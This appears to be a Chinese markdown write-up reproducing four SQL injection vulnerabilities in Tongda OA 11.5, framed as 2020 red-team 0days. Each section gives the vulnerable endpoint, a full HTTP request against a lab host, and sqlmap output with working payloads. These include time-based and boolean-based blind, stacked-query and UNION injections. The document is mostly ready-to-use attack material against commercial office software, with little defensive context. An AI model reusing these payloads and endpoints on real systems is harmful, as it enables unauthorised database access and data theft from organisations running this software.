



# 通达OA11.5漏洞复现_2020HW_0day
` @Time : 2020年8月24日, 0024 10:30`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

[原文链接](https://mp.weixin.qq.com/s/3bI7v-hv4rMUnCIT0GLkJA)

### 1.SQL注入1

> 在【日程管理】->【查询日程】位置


```angular2html
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.184.139/general//calendarArrange/calendarArrange.php
Content-Length: 69
Cookie: PHPSESSID=a94j8pel3r8b1idtmd50ro8760; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=62b732f8; _csrf=5385866953c7f651f3e333549e332c8a3681787c5e27714e207628997c560ef3a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22XaoEpsYBGEQCHrj8aTAiwqICdEDQBP1U%22%3B%7D
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

view=month&starttime=1595779200&endtime=1599408000&callback=undefined
```
```angular2html
sqlmap identified the following injection point(s) with a total of 172 HTTP(s) requests:
---
Parameter: starttime (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=month&starttime=1595779200') AND (SELECT 9275 FROM (SELECT(SLEEP(5)))UPQR) AND ('MHNP'='MHNP&endtime=1599408000&callback=undefined
---

```
### 2.SQL注入2
> 在【个人信息】->【收件箱】位置


```angular2html
GET /general/email/inbox/get_index_data.php?timestamp=&curnum=0&pagelimit=10&total=&boxid=0&orderby=SEND_TIME&asc=0&keyword=&emailtype=ALLMAIL&boxname=inbox&tag= HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://192.168.184.139/general/email/inbox/?BOX_ID=0&boxname=inbox0&boxid=0
Cookie: USER_NAME_COOKIE=chenqiang; OA_USER_ID=chenqiang; SID_1=62b732f8; _csrf=5385866953c7f651f3e333549e332c8a3681787c5e27714e207628997c560ef3a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22XaoEpsYBGEQCHrj8aTAiwqICdEDQBP1U%22%3B%7D; PHPSESSID=aomj53p0nd8cosoem8bmnj0pj1; SID_15=1e1177a1
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

```
```angular2html
GET parameter 'orderby' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 2322 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: timestamp=&curnum=0&pagelimit=10&total=&boxid=0&orderby=1 RLIKE (SELECT (CASE WHEN (5365=5365) THEN 1 ELSE 0x28 END))&asc=0&keyword=&emailtype=ALLMAIL&boxname=inbox&tag=
---

```


### 3.SQL注入3
> 在【个人信息】->【已发送】位置


```angular2html
GET /general/email/sentbox/get_index_data.php?timestamp=&curnum=0&pagelimit=10&total=&boxid=0&orderby=SEND_TIME&asc=0&keyword=&emailtype=ALLMAIL&boxname=sentbox&tag= HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://192.168.184.139/general/email/sentbox/?BOX_ID=0
Cookie: USER_NAME_COOKIE=chenqiang; OA_USER_ID=chenqiang; SID_1=62b732f8; _csrf=5385866953c7f651f3e333549e332c8a3681787c5e27714e207628997c560ef3a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22XaoEpsYBGEQCHrj8aTAiwqICdEDQBP1U%22%3B%7D; PHPSESSID=aomj53p0nd8cosoem8bmnj0pj1; SID_15=1e1177a1
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

```
```angular2html
sqlmap identified the following injection point(s) with a total of 4238 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: timestamp=&curnum=0&pagelimit=10&total=&boxid=0&orderby=SEND_TIME RLIKE (SELECT (CASE WHEN (1977=1977) THEN 0x53454e445f54494d45 ELSE 0x28 END))&asc=0&keyword=&emailtype=ALLMAIL&boxname=sentbox&tag=
---

```

### 4.SQL注入4
> 在【报表中心】->【报表管理】->【编辑】位置

> 报表类型必须是统计表
```angular2html
GET /general/appbuilder/web/report/repdetail/edit?id=59 HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.184.139/general/appbuilder/web/report/pivottable?reportId=59&module=&datasetType=
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_15=f90ca368; PHPSESSID=i32aipuse2amh2q7rslgelqoq6; SID_1=8a2db6d3; _csrf=f60f04598987f60abc379b373511b85bc6b8de91ca802171a1389685310f531ea%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%221HbuF2AqpYEDuzstqpCRj_m8Kq7i4d2f%22%3B%7D
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

```
```angular2html
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 176 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=59) AND 9703=9703 AND (5056=5056

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=59);SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=59) AND (SELECT 5594 FROM (SELECT(SLEEP(5)))Icvz) AND (8135=8135

    Type: UNION query
    Title: Generic UNION query (NULL) - 56 columns
    Payload: id=-1908) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176626a71,0x654f42564571706c506b466967726f4f474a5a43687954736955516653777244716e557552666158,0x717a6a7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---

```


> 乾坤未定,你我皆是黑马